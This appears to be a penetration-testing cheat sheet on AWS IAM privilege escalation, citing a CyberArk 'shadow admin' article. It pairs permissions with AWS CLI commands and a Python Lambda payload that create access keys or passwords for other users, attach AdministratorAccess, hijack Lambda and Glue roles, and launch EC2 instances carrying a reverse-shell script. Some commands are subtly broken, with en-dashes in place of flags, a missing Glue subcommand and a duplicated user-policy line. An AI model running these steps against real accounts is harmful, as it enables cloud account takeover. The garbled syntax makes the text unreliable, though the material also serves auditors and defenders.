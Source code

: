 # AWS - Identity & Access Management

## AWS - Shadow Admin 

### Admin equivalent permission 

- AdministratorAccess

    ```powershell
    "Action": "*"
    "Resource": "*"
    ```

- **ec2:AssociateIamInstanceProfile** : attach an IAM instance profile to an EC2 instance
    ```powershell
    aws ec2 associate-iam-instance-profile --iam-instance-profile Name=admin-role --instance-id i-0123456789
    ```

- **iam:CreateAccessKey** : create a new access key to another IAM admin account
    ```powershell
    aws iam create-access-key –user-name target_user
    ```

- **iam:CreateLoginProfile** : add a new password-based login profile, set a new password for an entity and impersonate it 
    ```powershell
    $ aws iam create-login-profile –user-name target_user –password '|[3rxYGGl3@`~68)O{,-$1B”zKejZZ.X1;6T}<XT5isoE=LB2L^G@{uK>f;/CQQeXSo>}th)KZ7v?\\hq.#@dh49″=fT;|,lyTKOLG7J[qH$LV5U<9`O~Z”,jJ[iT-D^(' –no-password-reset-required
    ```

- **iam:UpdateLoginProfile** : reset other IAM users’ login passwords.
    ```powershell
    $ aws iam update-login-profile –user-name target_user –password '|[3rxYGGl3@`~68)O{,-$1B”zKejZZ.X1;6T}<XT5isoE=LB2L^G@{uK>f;/CQQeXSo>}th)KZ7v?\\hq.#@dh49″=fT;|,lyTKOLG7J[qH$LV5U<9`O~Z”,jJ[iT-D^(' –no-password-reset-required
    ```

- **iam:AttachUserPolicy**, **iam:AttachGroupPolicy** or **iam:AttachRolePolicy** : attach existing admin policy to any other entity he currently possesses
    ```powershell
    $ aws iam attach-user-policy –user-name my_username –policy-arn arn:aws:iam::aws:policy/AdministratorAccess
    $ aws iam attach-user-policy –user-name my_username –policy-arn arn:aws:iam::aws:policy/AdministratorAccess
    $ aws iam attach-role-policy –role-name role_i_can_assume –policy-arn arn:aws:iam::aws:policy/AdministratorAccess
    ```

- **iam:PutUserPolicy**, **iam:PutGroupPolicy** or **iam:PutRolePolicy** : added inline policy will allow the attacker to grant additional privileges to previously compromised entities.
    ```powershell
    $ aws iam put-user-policy –user-name my_username –policy-name my_inline_policy –policy-document file://path/to/administrator/policy.json
    ```

- **iam:CreatePolicy** : add a stealthy admin policy
- **iam:AddUserToGroup** : add into the admin group of the organization.
    ```powershell
    $ aws iam add-user-to-group –group-name target_group –user-name my_username
    ```

- **iam:UpdateAssumeRolePolicy** + **sts:AssumeRole** : change the assuming permissions of a privileged role and then assume it with a non-privileged account.
    ```powershell
    $ aws iam update-assume-role-policy –role-name role_i_can_assume –policy-document file://path/to/assume/role/policy.json
    ```

- **iam:CreatePolicyVersion** & **iam:SetDefaultPolicyVersion** : change customer-managed policies and change a non-privileged entity to be a privileged one.
    ```powershell
    $ aws iam create-policy-version –policy-arn target_policy_arn –policy-document file://path/to/administrator/policy.json –set-as-default
    $ aws iam set-default-policy-version –policy-arn target_policy_arn –version-id v2
    ```

- **lambda:UpdateFunctionCode** : give an attacker access to the privileges associated with the Lambda service role that is attached to that function.
    ```powershell
    $ aws lambda update-function-code –function-name target_function –zip-file fileb://my/lambda/code/zipped.zip
    ```

- **glue:UpdateDevEndpoint** : give an attacker access to the privileges associated with the role attached to the specific Glue development endpoint.
    ```powershell
    $ aws glue –endpoint-name target_endpoint –public-key file://path/to/my/public/ssh/key.pub
    ```


- **iam:PassRole** + **ec2:CreateInstanceProfile**/**ec2:AddRoleToInstanceProfile** : an attacker could create a new privileged instance profile and attach it to a compromised EC2 instance that he possesses.

- **iam:PassRole** + **ec2:RunInstance** : give an attacker access to the set of permissions that the instance profile/role has, which again could range from no privilege escalation to full administrator access of the AWS account.
    ```powershell
    # add ssh key
    $ aws ec2 run-instances –image-id ami-a4dc46db –instance-type t2.micro –iam-instance-profile Name=iam-full-access-ip –key-name my_ssh_key –security-group-ids sg-123456
    # execute a reverse shell
    $ aws ec2 run-instances –image-id ami-a4dc46db –instance-type t2.micro –iam-instance-profile Name=iam-full-access-ip –user-data file://script/with/reverse/shell.sh
    ```

- **iam:PassRole** + **lambda:CreateFunction** + **lambda:InvokeFunction** : give a user access to the privileges associated with any Lambda service role that exists in the account.
    ```powershell
    $ aws lambda create-function –function-name my_function –runtime python3.6 –role arn_of_lambda_role –handler lambda_function.lambda_handler –code file://my/python/code.py
    $ aws lambda invoke –function-name my_function output.txt
    ```
    Example of code.py
    ```python
    import boto3
    def lambda_handler(event, context):
        client = boto3.client('iam')
        response = client.attach_user_policy(
        UserName='my_username',
        PolicyArn="arn:aws:iam::aws:policy/AdministratorAccess"
        )
        return response
    ```

* **iam:PassRole** + **glue:CreateDevEndpoint** : access to the privileges associated with any Glue service role that exists in the account.
    ```powershell
    $ aws glue create-dev-endpoint –endpoint-name my_dev_endpoint –role-arn arn_of_glue_service_role –public-key file://path/to/my/public/ssh/key.pub
    ```



## References

* [Cloud Shadow Admin Threat 10 Permissions Protect - CyberArk](https://www.cyberark.com/threat-research-blog/cloud-shadow-admin-threat-10-permissions-protect/)